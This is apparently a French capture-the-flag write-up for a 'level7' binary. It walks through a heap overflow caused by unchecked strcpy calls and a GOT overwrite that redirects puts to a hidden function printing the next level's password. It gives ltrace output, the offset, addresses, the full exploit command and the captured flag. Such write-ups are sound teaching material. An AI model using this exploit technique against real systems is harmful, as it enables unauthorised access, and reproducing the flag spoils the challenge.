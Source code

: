 L'exécutable demande 2 arguments, les 2 arguments vont être stockés dans 2 variables différentes via des strcpy.
Les strcpy ne sont pas protégés donc on peux supposer qu'un buffer overflow sera utilisé.


Analysons le main.
4 malloc sont effectués afin de préparer les arguments pour les strcpy
arg1 est copier dans 0x0804a018
arg2 est copier dans 0x0804a038
puis le fichier .pass de l'user8 est ouvert et le contenu est enregistré dans une variable à l'adresse 0x8049960
enfin la fonction fini par un appel à puts@plt qui imprime "~~"

Via info functions dans gdb on remarque une fonction m non utilisée à l'adresse 0x080484f4 qui print le résultat de la fonction time ET notre variable 0x8049960 qui contient le .pass
On souhaite donc exécuter la fonction m après l'appel du fopen dans main

On peux supposer que l'appel de puts@plt est vulnérable en utilisant un overwrite du GOT en remplacant l'adresse de puts() par m()
Etant donné que malloc est utilisé pour les arguments des strcpy regardons leurs adresses via  ltrace
```
--ltrace ./level7 aaaa aaaa
malloc(8)                    = 0x0804a008 (1)
malloc(8)                    = 0x0804a018 (2)
malloc(8)                    = 0x0804a028 (3)
malloc(8)                    = 0x0804a038 (4)
strcpy(0x0804a018, "aaaa")   = 0x0804a018 (1 -> 2)
strcpy(0x0804a038, "aaaa")   = 0x0804a038 (3 -> 4)
```
si on segfault en aggrandissant (1) on remarque:
```
--ltrace ~/level7 aaaaaaaaaaaaaaaaaaaaaaaaaaaaa aaaa
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa")  = 0x0804a018
strcpy(0x61616161, "aaaa" <unfinished ...>
```
Le programme segfault car notre argument (1) stocké à 0x0804a008 a overwrite notre argument (3) à 0x0804a028

En trouvant l'offset ( qui est de 0x20 ) on peut manipuler l'adresse de destination du 2ème strcpy afin d'y mettre ce que l'on souhaite grace à (4) à l'adresse 0x0804a038

Encore une fois utilisons des pattern pour trouver l'offset et nous simplifier la vie:
```
-- ltrace ~/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab AAAA
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, "AAAA" <unfinished ...>

0x37614136 --> 20
```

Vérifions cela :

`ltrace ./level7 python -c "print('A'*20 + 'BBBB')" AAAA`
- strcpy(0x42424242, "AAAA" <unfinished ...>

Cela fonctionne, maintenant nous pouvons chercher l'adresse où est stockée notre fonction puts et la remplacer par notre fonction m

`readelf -r ./level7`
- 08049928  00000607 R_386_JUMP_SLOT   00000000   puts

0x08049928 est notre emplacement et l'addresse de m est 0x080484f4

Maintenant que nous avons tous nous pouvons essayer d'exécuter m
`./level7 $(python -c "print('A'*20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08'))"`

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

